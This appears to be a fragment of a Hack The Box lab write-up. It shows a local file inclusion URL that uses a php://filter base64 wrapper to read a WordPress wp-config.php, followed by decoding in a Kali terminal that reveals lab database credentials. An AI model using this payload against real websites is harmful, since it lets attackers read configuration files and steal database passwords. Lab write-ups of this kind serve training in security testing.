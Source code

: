 Here's the URL :
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=../wordpress/wp-config.php

And I got the following :

```php-template
┌──(kali㉿kali)-[~/htb]
└─$ echo "PD9waHANCi8qKg0KICogVGhlIGJhc2UgY29uZmlndXJhdGlvbiBmb3IgV29yZFByZXNzDQ
... <SNIP> ...
sNCg0KLyogVGhhdCdzIGFsbCwgc3RvcCBlZGl0aW5nISBIYXBweSBwdWJsaXNoaW5nLiAqLw0KDQovKiogQWJzb2x1dGUgcGF0aCB0byB0aGUgV29yZFByZXNzIGRpcmVjdG9yeS4gKi8NCmlmICggISBkZWZpbmVkKCAnQUJTUEFUSCcgKSApIHsNCglkZWZpbmUoICdBQlNQQVRIJywgX19ESVJfXyAuICcvJyApOw0KfQ0KDQovKiogU2V0cyB1cCBXb3JkUHJlc3MgdmFycyBhbmQgaW5jbHVkZWQgZmlsZXMuICovDQpyZXF1aXJlX29uY2UgQUJTUEFUSCAuICd3cC1zZXR0aW5ncy5waHAnOw0K" | base64 -d

<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME' 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'margaret' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Welcome1!2@3#' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

<SNIP>
```
